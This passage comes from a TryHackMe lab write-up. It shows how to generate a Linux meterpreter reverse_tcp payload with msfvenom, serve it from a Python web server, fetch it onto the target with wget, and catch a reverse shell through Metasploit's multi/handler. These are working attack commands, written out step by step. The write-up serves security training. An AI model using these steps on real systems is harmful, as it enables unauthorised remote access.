 ### 2. Create a meterpreter payload in the .elf format

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.52.213 LPORT=8282 -f elf > rev_shell.elf

* Open `msfconsole` in the terminal.
* Give the above payload to create a meterpreter payload.
* We can see the file `rev_shell.elf` is created.

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/1601c801-aed1-42f7-a926-fc30b434c918)

### 3. Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_10.10.52.213:9000/shell.elf to download it to the target machine).

* Start a python web server on the attacking machine by running command `python3 -m http.server 9000`.
* Open the SSH window we logged in before and download the file by using command. `wget http://<attacker machine ip>:9000/rev_shell.elf`. In my case, `wget http://10.10.36.117:9000/rev_shell.elf`.
* File gets downloaded.

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/028b178d-5f78-4028-9e13-b10776e3edc0)

* We can see the file sent acknowledgement can be seen at python web server tab.

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/0f3d459e-052b-4aa6-9d7e-9a278da70e12)

### 4. Get a meterpreter session on the target machine.

* Give executable permission to the .elf file payload by using command `chmod +x rev_shell.elf `.

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/d43cd286-eb23-411b-b105-254e59acad93)

Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload. We need a handler running. We can select the `multi/handler` module by searching for it and selecting it.

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/faed987e-9456-4f8b-910a-2185f82f87dd)

* Select payload by giving command `set payload linux/x86/meterpreter/reverse_tcp`
* Give `lport` and `lhosts` values

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/13b86121-e0d2-45a9-98c1-5b4869a9f6db)

Now run the handler, followed up by running the exploit on the target machine by writing `./rev_shell.elf`. You should have a reverse shell.

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/db1111e5-a4f7-447a-98a5-24aacde7c2db)

Give `ls` command to check reverse shell worked or not.

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/a0387166-6ea2-42e2-a805-3415db0970f8)
